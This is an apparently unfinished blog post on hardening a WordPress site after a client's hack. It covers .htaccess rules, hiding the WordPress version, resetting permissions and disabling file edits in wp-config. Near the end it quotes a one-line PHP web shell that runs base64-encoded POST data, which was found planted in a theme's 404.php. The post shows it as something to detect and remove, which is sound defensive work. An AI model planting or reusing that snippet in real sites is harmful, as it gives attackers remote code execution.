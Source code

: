 ```yaml
---
title: Securing Wordpress
layout: post
date: 2014-02-07
---
```


- Client hacked recently
- Lots of _obvious_ advice
-- Secure Passwords
-- Trusted Plugins
-- Poor Templates
-- etc.


I needed more information, not just fluff to fill out a link-baited title. Sure, some of the information is completely valid, but here are some additional techniques you can do at a server-level to help your security.



Some things for .htaccess:

{% highlight apache %}
Options -Indexes

ServerSignature Off

RedirectMatch 403 \[
RedirectMatch 403 \]

<Files wp-config.php>
   order allow,deny
   deny from all
</Files>

<Files .htaccess>
   order allow,deny
   deny from all
</Files>
{% endhighlight %}

- Talk about indexing
- Talk about brackets in urls
- Talk about blocking access
- Talk about blocking server signature


And... for the same reason we don't want to broadcast our server signature, we also don't want to tell a potential hacker which version of Wordpress you are using! DUH!.


{% highlight php %}
remove_action('wp_head', 'wp_generator');

function wpt_remove_version() {
   return '';
}
add_filter('the_generator', 'wpt_remove_version');
{% endhighlight %}






So one site was entirely 777'ed. I was quite stunned. Also, a file-editor plugin was installed. Needless to say, I quickly reset permissions:

# CHECK WHAT PERMISSIONS SHOULD BE IN WP


{% highlight bash %}
find . -type d -exec chmod 755 {} \;
find . -type f -exec chmod 644 {} \;
{% endhighlight %}


In order to prevent this kinda thing in the future, I disabled file editing and the ability to add new themes/plugins. To do this, add the following to wp-config.php:


{% highlight php %}
define( 'DISALLOW_FILE_EDIT', true );
define( 'DISALLOW_FILE_MODS', true );
{% endhighlight %}




Other things to look for.

Scan templates for the use of eval:

{% highlight bash %}
find path/to/theme/ -name "*.php" -type f -exec grep -l "eval" {} \;
{% endhighlight %}

Vary handy if your client didn't use GIT or SVN for a project. If this is the case, it's tough to narrow down every single infection. I did some scanning for usage of eval and base64_decode within the theme and plugin folders and found a nice little snippet:

{% highlight bash %}
<?php if ($_POST["php"]){eval(base64_decode($_POST["php"]));exit;} ?>
{% endhighlight %}

Needless to say, this was removed quickly! This showed up at the top of 404.php - check for things like this that could be left behind has a backdoor.